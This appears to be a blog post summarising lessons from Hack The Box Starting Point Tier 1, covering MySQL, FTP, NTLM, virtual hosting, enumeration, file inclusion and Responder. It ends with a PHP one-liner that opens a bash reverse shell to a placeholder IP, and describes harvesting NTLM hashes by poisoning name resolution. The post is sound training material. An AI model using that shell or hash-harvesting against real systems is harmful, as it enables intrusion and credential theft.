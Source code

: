 ```yaml
---
title: 'HTB Starting Point - Tier 1'
description: 'Hack the Box Starting Point'
pubDate: 'Dec 5 2024'
heroImage: '/blog-placeholder-2.jpg'
---
```


Topics covered:  
* SQLi
* Server side template injection
* Remote file inclusion
* Web/reverse shells
* Navigating Jenkins
* S3

## Summary

In Tier 1, we covered even more topics. The following summary captures a bunch of the key ideas that I encountered.

### Tech Basics  
#### MySQL
* `mysql` is command line tool
* `root` is the super user
* All MySQL instances contain the databases: `information_schema`, `mysql` and `performance_schema`
* When connected to the server via the `mysql` tool, some useful commands: `USE <db>`, `SHOW TABLES;`, `SELECT * FROM <table>`


#### FTP
* Anonymous login allowed returns the code `340` 
* Anonymous login uses the username `anonymous`
* Some useful commands: `ftp <user>@<server>`, `ls`, `get <file>`


#### NTLM

This is described in more detail on the post: "[Harvesting NTLM Credentials](/blog/htb-starting-point/harvesting-ntlm-creds)"
* A set of challenge-response protocols used in Microsoft systems. 
* An NTHash is the output of the NTLM protocol's hash algorithm. This NTHash is stored on the SAM DB on a local machine, or on a domain controller.
* NetNTLMv2 is a specific string format to represent a challenge and its response. Colloquially known as a hash even though it's not


#### Name-based virtual hosting
This is a technique to allow multiple domains to be hosted on the same machine whilst still allowing each domain to handle its own requests separately. The server looks at the HTTP header `Host` to determine which service on the machine should handle the request. This host header will specify the domain name and is what makes it different to IP-based virtual hosting (which I believe is just our regular ol' DNS entries). The Host header is mandatory in HTTP/1.1. Interestingly, this has caused some complications in SSL/TLS as the handshake is done prior to the hostname being known. There is a TLS extension called "Server Name Indication" that circumvents this issue by presenting the name at the start of the handshake. Thus name-based virtual hosting can be used in both HTTP and HTTPS scenarios.

While doing the pentests below, there were times that a web server was expecting a certain DNS entry that didn't exist in my computer. To fix this, it only requires a change to the `/etc/hosts` file. e.g.

```
# /etc/hosts
10.10.10.3  my.domain.com
```

Subdomain enumeration can be completed with `gobuster vhost --apend-domain -u <domain> -w ./Discovery/DNS/subdomains-top1million-5000.txt`


### Pentest Essentials
#### Reconnaissance and enumeration
When approaching a box: 
* `nmap` everything! 
* `gobuster` is useful for site, path and virtual host enumeration
    * `dns` for subdomain enumeration
    * `dir` discovers directories/files. `-x` allows you to specify a kind of file. e.g. `gobuster dir -x php -u $TARGET -w ./Discovery/Web-Content/common.txt`
    * `vhost` for virtual hosts and virtual host subdomains
* `wappalyzer` gives an analysis of a websites tech


#### Local File Inclusion/Remote File Inclusion

* LFI is where the server is tricked into serving a local file not intended for the website. This is achievable when the site doesn't properly sanitize filepath inputs. You could try using relative or absolute paths to find a file. In one of the boxes, we were able to obtain LFI via an improper use of PHPs `include()` function
* RFI is where a server tries to connect to some remote machine to retrieve a file. Windows, by default will try and resolve UNC paths using SMB. For RFI to work in PHP, PHP must have `allow_url_include` enabled

#### Responder

A useful tool to harvest NTLM hashes. It can poison resolution protocols to trick computers into thinking the attacker's machine is the correct server. In the responder challenge, we obtained the NTLM hash by exploiting the web server's trust in our authority as an SMB server. It willingly handed over the hash!

This is described in more detail on the post: "[Harvesting NTLM Credentials](/blog/htb-starting-point/harvesting-ntlm-creds)"

#### Simple reverse shell

A simple reverse shell command in PHP

```php
<?php system("bash -i >& /dev/tcp/<IP>/1337 0>&1")?>
```

You can read more details in this blog post: "[Obtain a Reverse Shell With PHP and Bash](/blog/htb-starting-point/reverse-shell-php-and-bash/)"
